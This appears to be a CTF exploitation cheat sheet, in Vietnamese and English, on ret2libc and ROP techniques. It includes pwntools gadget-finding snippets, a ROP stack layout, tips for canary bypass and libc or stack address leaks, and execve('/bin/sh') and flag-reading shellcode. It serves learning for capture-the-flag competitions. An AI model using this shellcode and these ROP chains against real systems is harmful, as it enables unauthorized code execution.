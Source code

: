 # Ret2LIBC-ROP

## [0] Overview:
- pwntools '/bin/sh', gadget:
```python
next(libc.search(b'/bin/sh'))

POP_RDI = (rop.find_gadget(['pop rdi', 'ret']))[0] #Same as ROPgadget --binary vuln | grep "pop rdi"
RET = (rop.find_gadget(['ret']))[0]
```
- pwntools `flat()` điền byte là p64() hoặc p32() theo cấu trúc chương trình là x86 hay x86_64, VD:`[convert - ASCIS 2022]` .
- [Tools local find offset LIBC](https://x3ero0.tech/posts/orxw_balsn_ctf_2021_pwn/) .
- Để ý cái lỗi dùng chung stack giữa hai hàm đều được gọi từ hàm main dẫn đến giá trị được tham chiếu của hàm này nếu không đặt lại giá trị thì sẽ mang giá trị được tạo bởi hàm kia.
- Một số bài có thể sử dụng one_gadget kết hợp với đối số của các hàm bị ghi đè khi gọi tới.
- Trong libc.so.6 có mọi gadgets, đôi khi không thể dùng tools để tìm được 1 số gadgets.
    * VD: `syscall ; ret` [dicectf 2023 - bop].
    * gadget push rax;ret
    * jmp rsp
    * ...
```python
import pwn
rop = pwn.ROP(libc, base=<address_overwrite>)
rop.call(rop.find_gadget(["syscall", "ret"]))
print(rop.dump())
```
- Từ Ubuntu 18.04 trở đi, nếu việc thực thi thất bại tại những hàm như buffered_vfprintf() hay do_system() trong những file thực thi 64 bit là do ngay trước câu lệnh ret, đầu vùng nhớ stack được cấp phát 16 bytes cho việc gọi lệnh tại return address nên để thực thi được thì cần chèn thêm 1 ROPgadget "ret" vào trước câu lệnh cần thực thi để bỏ đi 1 stack 8 bytes đầu tiên và thực thi câu lệnh này nằm ở stack ngay sau đó.
```
STACK:
1. địa chỉ lệnh "ret"
2. địa chỉ lệnh "pop rdi, ret"
3. địa chỉ lưu chuỗi 
4. địa chỉ hàm gets

5. địa chỉ lệnh "ret"
6. địa chỉ lệnh "pop rdi, ret"
7. địa chỉ muốn được in (đọc chuỗi)
8. địa chỉ hàm printf 
# leak = printf thì sau printf lại phải dùng ret
9. địa chỉ lệnh "ret"
10. địa chỉ nào đó muốn return về.
```
- Vậy nên để bypass tránh việc ghi đè canary ta chỉ cần nhập chữ cái (+, -, -, /) mà không thuộc format %lu thì phần tử đó sẽ bị skip, không thay đổi. VD: chall `Warmup` - UIT-2022-CTF .
- Leak được LIBC thì có thể leak được địa chỉ thuộc stack thông qua biến environ trong LIBC.
- Có thể leak libc thông qua đọc `/proc/self/maps`
- `Chall pwn07 - whitehat`: Dùng dup2(0, 1) để mở lại stdout, leak giá trị.
- `shellcode`:

```python
...
elf = ELF('./vuln')
context.binary = elf
p = elf.process()
...
context.arch = 'amd64'
shellcode = asm(
    f'''
    xor rdi, rdi
    push rdi
    mov rdi, 0x68732f2f6e69622f
    push rdi
    mov rdi, rsp
    xor rdx, rdx
    xor rsi, rsi
    xor rax, rax
    add al, 0x3b
    syscall
    ''')
```
```python
shellcode = pwn.asm(
	pwn.shellcraft.open("./flag.txt") + 
	pwn.shellcraft.read(3, "rsp", 64) + 
	pwn.shellcraft.write(1, "rsp", 64)
).ljust(0x44, b"\x90")
```


## [1] Technique:
- [CTF: No leak - close(fd)](https://blog.idiot.sg/2018-09-03/tokyowesterns-ctf-2018-load-pwn/) .
- [CTF: BlindROP](https://soolidsnake.github.io/2018/07/15/blindx86_64_rop.html) .
- BRUTEFORCE - `TWOSHOT - KMACTF2022`
- ...

